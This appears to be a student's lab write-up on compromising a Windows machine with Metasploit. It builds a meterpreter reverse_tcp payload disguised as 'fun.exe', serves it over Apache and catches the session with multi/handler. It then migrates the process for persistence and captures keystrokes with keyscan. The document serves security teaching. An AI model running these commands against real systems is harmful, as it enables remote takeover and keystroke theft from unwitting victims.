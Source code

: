 # Compromising-windows-using-Metasploit

NAME: GRACIA RAVI(212222040047)
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig
## Output:
![Screenshot 2024-10-28 155406](https://github.com/user-attachments/assets/7fb3d68e-8f57-488f-bc2c-92bbda026a8a)

Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## Output:
![Screenshot 2024-10-28 155421](https://github.com/user-attachments/assets/e8fdbb95-3174-4fde-9038-7da81a66bb0a)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2024-10-28 155437](https://github.com/user-attachments/assets/d87dab41-b6b0-4647-9c2c-768feb45341c)

Start apache server sudo systemctl apache2 start

![Screenshot 2024-10-28 155451](https://github.com/user-attachments/assets/e8c70316-97bf-4ea0-816b-1ac7e353dd0e)

Check the status of apache2 sudo apache2 status
![Screenshot 2024-10-28 155537](https://github.com/user-attachments/assets/89f10144-5cf5-4b0e-b5e5-f81d538535b0)
Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## Output
![374867868-108c6d73-63fc-415b-8b5d-5ddbeb7bdfb7](https://github.com/user-attachments/assets/c4b090c0-89b8-4b83-8999-b3010fbf9949)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 
![374867924-2d3c9bbd-30bf-4db7-8957-4760d26234a1](https://github.com/user-attachments/assets/fd6cf4ad-9f48-4976-92a6-39e92e09cad9)
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit 
![374867950-3b6d33dd-159f-4798-926d-22dece021d73](https://github.com/user-attachments/assets/26cd1d8c-79c1-45c8-b70c-99a77fa8e219)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
# Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![374868025-70c71c8a-0ed9-42b7-a002-f07f1d50b459](https://github.com/user-attachments/assets/16edb9fa-6b4f-4f59-8255-30773597cfba)

keyscan_dump Shows the keystrokes captured so far
![374868055-1b9359f7-97a1-4452-9cd8-4abba68f2246](https://github.com/user-attachments/assets/1c6940f3-48f4-4140-97bd-ded02c042040)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
